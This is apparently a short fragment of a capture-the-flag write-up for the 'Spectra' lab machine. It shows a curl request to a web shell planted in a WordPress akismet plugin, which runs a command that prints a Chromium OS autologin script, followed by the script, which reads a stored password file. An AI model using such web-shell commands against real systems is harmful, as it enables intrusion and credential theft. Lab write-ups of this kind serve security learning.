 // Lets see his content

    $ curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=cat+/opt/autologin.conf.orig

    # Copyright 2016 The Chromium OS Authors. All rights reserved.
    # Use of this source code is governed by a BSD-style license that can be
    # found in the LICENSE file.
    description   "Automatic login at boot"
    author        "chromium-os-dev@chromium.org"
    # After boot-complete starts, the login prompt is visible and is accepting
    # input.
    start on started boot-complete
    script
      passwd=
      # Read password from file. The file may optionally end with a newline.
      for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
        if [ -e "${dir}/passwd" ]; then
          passwd="$(cat "${dir}/passwd")"
          break
        fi
      done
      if [ -z "${passwd}" ]; then
        exit 0
      fi
      # Inject keys into the login prompt.
      #
      # For this to work, you must have already created an account on the device.
      # Otherwise, no login prompt appears at boot and the injected keys do the
      # wrong thing.
      /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
    end script

